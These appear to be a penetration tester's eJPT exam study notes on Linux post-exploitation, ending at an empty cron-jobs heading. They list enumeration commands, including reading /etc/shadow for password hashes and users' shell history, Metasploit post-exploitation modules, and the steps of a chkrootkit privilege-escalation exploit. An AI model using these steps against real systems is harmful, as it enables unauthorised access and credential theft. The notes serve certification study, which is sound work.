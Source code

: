 ## Linux Post Exploitation

[eJPT - Exam Notes Index](https://github.com/sedici-gith/eJPT/tree/main)

### SHELL
```
whoami
id user1
hostname
cat /etc/passwd - users registered in the system
cat /etc/passwd | grep home - users having an home folder
cat /etc/shadow - passwords hashes
history - shell history
cat ~/.*history | less - shell history
groups root - root group users
cat /etc/*issue - target system issue
uname -r - kernel version (short)
uname -a - kernel version (extended)
ifconfig
ip a s
ip route
netstat -antp - ports listening services
ps aux - running processes
ps -A - all processes
ps axjf - running processes (tree formatted)
env - le - emvironment variables
cat /proc/version - system processes information
```
### Metasploit
```
search enum_configs - configuration enumeration
post/multi/gather/env - OS enumeration
search enum_network - neteork resources enumeration
search enum_protections - protections enumeration 
search enum_system - system enumeration
search checkcontainer - check if the target is a container
search checkvm - check if the target is a VM
search enum_users_history - check for shell history of all users
```
## Linux privilege escalation

### Exploiting a vulnerable program (chkrootkit exploitation)

#### Meterpreter
```
shell
ps aux 
cat /bin/check-down
chkrootkit -v
```
#### Metaslpoit
```
search chkrootkit
set CHKROOTKIT /bin/chkrootkit
set session 2
set LHOST
```
### Misconfigured cron jobs

